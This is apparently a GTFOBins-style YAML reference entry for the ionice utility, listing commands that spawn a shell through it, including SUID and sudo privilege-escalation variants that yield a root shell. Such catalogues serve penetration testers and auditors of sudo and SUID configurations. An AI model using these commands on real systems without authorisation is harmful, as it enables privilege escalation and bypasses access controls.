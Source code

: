```yaml
---
functions:
  shell:
    - code: ionice /bin/sh
  suid:
    - code: ./ionice /bin/sh -p
  sudo:
    - code: sudo ionice /bin/sh
---
```

